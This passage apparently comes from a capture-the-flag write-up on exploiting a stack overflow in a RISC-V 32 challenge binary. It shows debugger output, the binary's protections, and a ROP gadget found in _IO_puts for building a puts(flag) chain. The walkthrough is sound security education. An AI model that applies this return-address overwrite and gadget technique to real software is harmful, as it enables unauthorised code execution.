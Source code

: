 ```shell
      0x10fa2 <do_b2+78>       mv     a0, a5
 →    0x10faa <do_b2+86>       ret
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x40800d90│+0x0000: 0x62616166  →  0x62616166    ← $sp
0x40800d94│+0x0004: 0x62616167  →  0x62616167
0x40800d98│+0x0008: 0x62616168  →  0x62616168
0x40800d9c│+0x000c: 0x62616169  →  0x62616169
0x40800da0│+0x0010: 0x6261616a  →  0x6261616a
0x40800da4│+0x0014: 0x6261616b  →  0x6261616b
0x40800da8│+0x0018: 0x6261616c  →  0x6261616c
0x40800dac│+0x001c: 0x6261616d  →  0x6261616d
───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, stopped 0x10faa in do_b2 (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x10faa → do_b2(size=0x12c)
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

So now we have a stack overflow, and these are the protections

```
[*] '/home/tt3/Workspace/dropbaby/drop-baby'
    Arch:     em_riscv-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

The stack is non-executable, so the only option left is to perform a ROP. What we need is just a call to `puts(flag)`. The flag is stored at a fixed stack address, and `puts()` is also at a fixed address. There is no `ASLR` in this binary. However, the problem is that, unlike the Intel architecture, RiscV/32 passes the arguments in the `a0`, `a1`, and `a2` registers. The `ret` instruction just puts the content of the `ra` register in `pc`. Therefore, what we really need are some gadgets that set `ra` and `a0` based on stack values. Fortunately, there is a single gadget that can enable us to do both at address `0x167D2`.

```
gef➤  x/9i 0x167D2
   0x167d2 <_IO_puts+150>:      lw      ra,28(sp)
   0x167d4 <_IO_puts+152>:      mv      a0,s0
   0x167d6 <_IO_puts+154>:      lw      s0,24(sp)
   0x167d8 <_IO_puts+156>:      lw      s1,20(sp)
   0x167da <_IO_puts+158>:      lw      s2,16(sp)
   0x167dc <_IO_puts+160>:      lw      s3,12(sp)
   0x167de <_IO_puts+162>:      lw      s4,8(sp)
   0x167e0 <_IO_puts+164>:      add     sp,sp,32
   0x167e2 <_IO_puts+166>:      ret
```
